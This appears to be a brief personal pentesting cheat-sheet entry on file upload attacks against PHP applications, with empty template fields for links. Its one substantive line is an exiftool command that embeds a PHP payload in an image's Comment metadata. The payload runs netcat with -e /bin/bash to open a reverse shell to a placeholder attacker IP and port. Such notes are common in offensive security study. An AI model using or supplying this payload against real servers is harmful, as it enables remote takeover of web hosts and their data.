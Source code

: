 # File Upload
Tags: #php 
Related to:
See also:
Previous:

## Links
Title:
Link:
About:

## Notes
### RCE in image metadata
 `exiftool -Comment='<?php system("nc <IP> <Port> -e /bin/bash"); ?>' image.png`